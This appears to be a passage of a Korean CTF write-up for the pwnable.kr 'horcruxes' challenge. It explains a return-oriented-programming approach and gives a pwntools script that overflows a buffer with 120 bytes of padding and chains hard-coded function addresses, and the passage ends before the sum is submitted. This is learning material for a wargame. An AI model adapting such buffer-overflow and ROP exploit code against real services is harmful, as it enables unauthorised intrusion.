 <img src="/picture/pwnable.kr/horcruxes_4.png" width="1000"/>

각각의 A부터 G까지 함수에서 a부터 g까지 모든 값을 출력해주는 것을 확인할 수 있다.<br>
모두 호출해서 모든 값을 다 구한 다음에 다 더한 값을 구한 후 ropme를 다시 호출해서 문제를 풀자.<br>
ropme함수의 주소에는 0x0a가 끼어있기 때문에 ropme를 호출할때도 main함수에 있는 call ropme를 이용해야한다.<br>
sum값을 구할 때 4byte integer범위를 넘어가면 overflow가 나기 때문에 이에 대한 handling을 해야한다. c_int를 이용해 handling했다.

```python
from pwn import *
from ctypes import c_int

p = remote("pwnable.kr", 9032)

print(p.recvline())
print(p.recvline())
print(p.recvuntil(":"))
p.send("1\n")

print(p.recvuntil(" : "))
#      padding     A()             B()                C()              D()               E()              F()              G()             call ropme
p.send("A"*120 + p32(0x809fe4b) + p32(0x809fe6a) + p32(0x809fe89) + p32(0x809fea8) + p32(0x809fec7) + p32(0x809fee6) + p32(0x809ff05) + p32(0x0809fffc) +"\n")

print(p.recvline())
result = 0
for _ in range(7):
    print(p.recvuntil("(EXP +"))
    line = p.recvline()
    result += int(line[:-2])

print(p.recvuntil(":"))
```